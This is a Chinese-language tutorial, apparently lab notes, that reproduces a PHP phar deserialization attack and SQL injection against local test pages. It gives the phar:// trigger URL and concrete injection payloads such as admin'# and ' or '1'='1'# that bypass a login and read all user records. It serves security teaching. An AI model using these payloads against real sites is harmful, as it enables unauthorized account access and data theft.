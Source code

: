 `unser_phar.php`没有调用`unserialize()`

[**PHar反序列化**](https://www.php.net/manual/zh/intro.phar.php)

在文件操作函数（file_exists()、is_dir()等）参数可控的情况下，配合phar://伪协议，可以不依赖unserialize()直接进行反序列化操作。

phar的本质是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data。

**漏洞利用**

本质上则是将payload写入了phar文件的meta-data部分，读取文件内容时相当于传入了phar存储的序列化内容，将会直接执行反序列化操作，从而调取__wakeup()方法，配合require实现文件包含漏洞。

1. 生成phar文件，php文件`PharExploit.php`，网站跑一下得到phar文件

   > ⚠️要将php.ini中的phar.readonly选项设置为Off，重启
   
   ```ini
   [Phar]
   ; http://php.net/phar.readonly
   phar.readonly = Off
   ```

2. 将生成的phar.phar文件放到网站目录，进行EXP

   ```
   http://localhost/unser_phar.php?filename=phar://phar.phar
   ```


## SQL注入漏洞

> 此漏洞借助PHPstudy复现有点小困难，需要编辑一下数据库...

### 复现

源码`sql1.php`

SQL参数拼接，未作任何过滤，因此无需要正确密码，通过SQL注入读取所有数据。

> 原则上用户名和密码必须全对才能从数据库中选出符合条件的数据

利用1: 读取用户名为admin，密码随便写的账户信息

payload：`http://localhost/sql1.php?username=admin%27%23&password=xxx`

`%27`等价于`'`,`%23`等价于`#`

等价的sql语句结果为

```sql
select * from users where user='admin'#' and password='9336ebf25087d91c818ee6e9ec29f8c1'
```

#代表注释即只有前半句username是有效的。

利用2: 获取所有用户信息

payload：`http://localhost/sql1.php?username=%27%20or%20%271%27=%271%27%23&password=xx`

等价的sql语句结果为

```sql
select * from users where user='' or '1'='1'#' and password='9336ebf25087d91c818ee6e9ec29f8c1'
```
